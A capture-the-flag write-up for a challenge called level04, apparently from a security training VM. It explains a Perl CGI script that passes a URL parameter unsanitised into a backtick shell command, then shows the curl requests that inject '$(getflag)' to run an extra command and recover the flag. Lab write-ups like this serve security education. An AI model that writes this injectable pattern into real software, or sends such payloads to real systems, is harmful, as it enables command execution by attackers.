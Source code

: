 # level04

We can see a **Perl script** with the following contents :

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We can make the following observations :

- This appears to be a CGI script
- The comment `# localhost 4747` indicates it might currently be running on the VM, on port 4747
- We can read a `echo $y 2>&1`. This is a shell command, we can assume this is executed - and the results are sent back to us.
- The `sub x` function that executes this command isn't called directly ; it's called as `x(param("x"))`
- This means that the `$y` that's echo'ed is the result of the param() function.
- param() returns query values ; `param("x")` returns the value of `x` in a URL (format `URL?x=value`)

We start by checking if the script is running :

```
curl localhost:4747
```

It is. Now, what can we do ?

We'd like to change `$y`. `$y` is the first argument of `x()`, which means it's the return value of `param("x")`. We send the program a value for `x` :

```
curl localhost:4747?x=value
```

As expected, curl displays `value`. The CGI ran `echo value 2>&1` and returned the result.

Now, we simply need to exploit it. We run :

```
curl 'localhost:4747?x=$(getflag)'
```

## The flag

The `getflag` command is ran, and we get our flag :

```
ne2searoevaevoem4ov4ar8ap
```